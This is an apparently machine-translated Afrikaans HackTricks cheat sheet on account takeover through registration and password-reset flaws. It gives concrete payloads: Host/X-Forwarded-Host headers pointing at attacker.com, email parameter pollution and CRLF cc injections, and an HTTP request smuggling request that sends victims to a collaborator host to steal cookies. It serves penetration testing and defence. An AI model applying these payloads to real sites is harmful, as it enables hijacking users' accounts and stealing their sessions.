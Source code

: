 # Registrasie & Oorname Kw vulnerabilities

{{#include ../banners/hacktricks-training.md}}

## Registrasie Oorname

### Dubbele Registrasie

- Probeer om te genereer met 'n bestaande gebruikersnaam
- Kontroleer verskillende e-pos:
- hoofletters
- \+1@
- voeg 'n punt in die e-pos by
- spesiale karakters in die e-pos naam (%00, %09, %20)
- Sit swart karakters na die e-pos: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Gebruikersnaam Enumerasie

Kontroleer of jy kan uitvind wanneer 'n gebruikersnaam reeds in die toepassing geregistreer is.

### Wagwoordbeleid

Skep 'n gebruiker en kontroleer die wagwoordbeleid (kontroleer of jy swak wagwoorde kan gebruik).\
In daardie geval kan jy probeer om akrediteer te brute-force.

### SQL Inbraak

[**Kontroleer hierdie bladsy** ](sql-injection/index.html#insert-statement)om te leer hoe om rekeningoorname te probeer of inligting te onttrek via **SQL Inbrake** in registrasievorms.

### Oauth Oornames

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### SAML Kw vulnerabilities

{{#ref}}
saml-attacks/
{{#endref}}

### Verander E-pos

Wanneer geregistreer, probeer om die e-pos te verander en kontroleer of hierdie verandering korrek geverifieer word of of jy dit na arbitrêre e-posse kan verander.

### Meer Kontroles

- Kontroleer of jy **weggooie e-posse** kan gebruik
- **Lang** **wagwoord** (>200) lei tot **DoS**
- **Kontroleer koerslimiete op rekeningcreasie**
- Gebruik username@**burp_collab**.net en analiseer die **terugroep**

## **Wagwoord Herstel Oornames**

### Wagwoord Herstel Token Lek Via Verwysing <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Versoek wagwoord herstel na jou e-posadres
2. Klik op die wagwoord herstel skakel
3. Moet nie wagwoord verander nie
4. Klik op enige 3de party webwerwe (bv: Facebook, twitter)
5. Intercepteer die versoek in Burp Suite proxy
6. Kontroleer of die verwysingskop lek wagwoord herstel token.

### Wagwoord Herstel Besmetting <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Intercepteer die wagwoord herstel versoek in Burp Suite
2. Voeg of wysig die volgende koppe in Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Stuur die versoek met die gewysigde kop\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Soek vir 'n wagwoord herstel URL gebaseer op die _host header_ soos : `https://attacker.com/reset-password.php?token=TOKEN`

### Wagwoord Herstel Via E-pos Parameter <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```bash
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR op API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Aanvaller moet met hul rekening aanmeld en na die **Verander wagwoord** funksie gaan.
2. Begin die Burp Suite en onderskep die versoek.
3. Stuur dit na die herhaler tab en wysig die parameters: User ID/e-pos\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Swak Wagwoord Herstel Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Die wagwoord herstel token moet ewekansig gegenereer en uniek wees elke keer.\
Probeer om te bepaal of die token verval of as dit altyd dieselfde is; in sommige gevalle is die generasie-algoritme swak en kan dit geraai word. Die volgende veranderlikes mag deur die algoritme gebruik word.

- Tydstempel
- UserID
- E-pos van gebruiker
- Voornaam en Van
- Geboortedatum
- Kriptografie
- Slegs nommer
- Klein token volgorde (karakters tussen \[A-Z,a-z,0-9])
- Token hergebruik
- Token vervaldatum

### Lekke Wagwoord Herstel Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger 'n wagwoord herstel versoek deur die API/UI vir 'n spesifieke e-pos, bv: test@mail.com
2. Ondersoek die bediener se antwoord en kyk vir `resetToken`
3. Gebruik dan die token in 'n URL soos `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Wagwoord Herstel Deur Gebruikersnaam Botsing <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registreer op die stelsel met 'n gebruikersnaam wat identies is aan die slagoffer se gebruikersnaam, maar met spasie voor en/of na die gebruikersnaam ingevoeg. bv: `"admin "`
2. Versoek 'n wagwoord herstel met jou kwaadwillige gebruikersnaam.
3. Gebruik die token wat na jou e-pos gestuur is en herstel die slagoffer se wagwoord.
4. Sluit aan by die slagoffer se rekening met die nuwe wagwoord.

Die platform CTFd was kwesbaar vir hierdie aanval.\
Sien: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Rekening Oorname Deur Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Vind 'n XSS binne die toepassing of 'n subdomein as die koekies op die ouerdomein gescope is: `*.domain.com`
2. Lek die huidige **sessies koekie**
3. Verifieer as die gebruiker met behulp van die koekie

### Rekening Oorname Deur HTTP Versoek Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Gebruik **smuggler** om die tipe HTTP Versoek Smuggling (CL, TE, CL.TE) te detecteer\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Stel 'n versoek op wat die `POST / HTTP/1.1` met die volgende data sal oorskryf:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` met die doel om die slagoffers na burpcollab te herlei en hul koekies te steel\
3\. Finale versoek kan soos die volgende lyk
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone verslae wat hierdie fout benut\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Rekening Oorneming via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Skep 'n payload vir die CSRF, bv: “HTML vorm met outomatiese indiening vir 'n wagwoord verandering”
2. Stuur die payload

### Rekening Oorneming via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token mag gebruik word om 'n gebruiker te verifieer.

- Wysig die JWT met 'n ander Gebruiker ID / E-pos
- Kontroleer vir swak JWT handtekening

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Verwysings

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
